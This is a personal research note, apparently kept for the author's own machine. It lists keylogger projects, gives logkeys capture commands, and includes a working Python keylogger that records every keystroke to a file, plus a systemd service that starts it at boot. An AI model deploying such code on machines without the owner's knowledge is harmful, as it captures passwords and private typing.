 ```yaml
---
share: true
uuid: 110c0e33-2ef8-470a-b094-c707827f7720
---
```

---
id: 4zI7TCRVN4AqHOJlschIv
title: research
desc: ''
updated: 1628449250371
created: 1628449250371
---
# Keylogger Software
*   List of keyloggers I was able to get to work
    *   [Bad display name "" when running via ssh · Issue #6 · moses-palmer/pynput](https://github.com/moses-palmer/pynput/issues/6)
    *   [How to Make a Keylogger in Python - Python Code](https://www.thepythoncode.com/article/write-a-keylogger-python)
    *   [keylogger · PyPI](https://pypi.org/project/keylogger/)
    *   [raspbian - How to start a python script at boot - Raspberry Pi Stack Exchange](https://raspberrypi.stackexchange.com/questions/108694/how-to-start-a-python-script-at-boot)
*   Links to Keyloggers I could not get to work
    *   [gsingh93/keylogger: A keylogger written in Rust](https://github.com/gsingh93/keylogger)
    *   [GiacomoLaw/Keylogger: A simple keylogger for Windows, Linux and Mac](https://github.com/GiacomoLaw/Keylogger)
    *   [deadblackclover/keylogger: Register various user actions - keystrokes on the computer keyboard, movements and mouse keystrokes](https://github.com/deadblackclover/keylogger)
*   The Key logger I want to use is called LogKeys but I could not get the correct key mapping
    *   [How to Monitor Keyboard Keystrokes Using 'LogKeys' in Linux](https://www.tecmint.com/how-to-monitor-keyboard-keystrokes-using-logkeys-in-linux/)
        *   Troubleshoot → [Linux keyboard event capturing /dev/inputX - Stack Overflow](https://stackoverflow.com/questions/2775461/linux-keyboard-event-capturing-dev-inputx)

    /proc/bus/input/devices
    
    ls -l /dev/input/by-id
    
    sudo logkeys -d event3 --export-keymap /home/dentropy/Documents/Software/keylogger/keymap.txt
    
    sudo logkeys -d event3 --keymap /home/dentropy/Documents/Software/keylogger/keymap.txt  -s
    
    sudo logkeys -d event3 --us-keymap -s

    # keylogger.py
    import keyboard # for keylogs
    from datetime import datetime
    
    # https://www.thepythoncode.com/article/write-a-keylogger-python
    # https://github.com/boppreh/keyboard#keyboard.hook
    
    class Keylogger:
        def callback_pressed(self, event):
            # print(event.name)
            # print(event.event_type)
            with open(f"./test-keylog.txt", "a") as f:
                event_string = str(datetime.now().isoformat()) + " " + event.event_type + " "+  event.name
                print(event_string, file=f)
        def start(self):
            keyboard.hook(callback=self.callback_pressed)
            keyboard.wait()
    if __name__ == "__main__":
        keylogger = Keylogger()
        keylogger.start()
    

    # install.sh
    #!/bin/bash
    sudo cp keylogger.service /etc/systemd/system/keylogger.service
    sudo systemctl enable keylogger.service
    sudo systemctl start keylogger.service

    # keylogger.service
    [Unit]
    Description=Keylogger Service
    After=multi-user.target
    
    [Service]
    ExecStart=/usr/bin/python3 /home/dentropy/Software/keylogger/keylogger.py /home/dentropy/Software/keylogger/keylogger.out
    
    [Install]
    WantedBy=multi-user.target
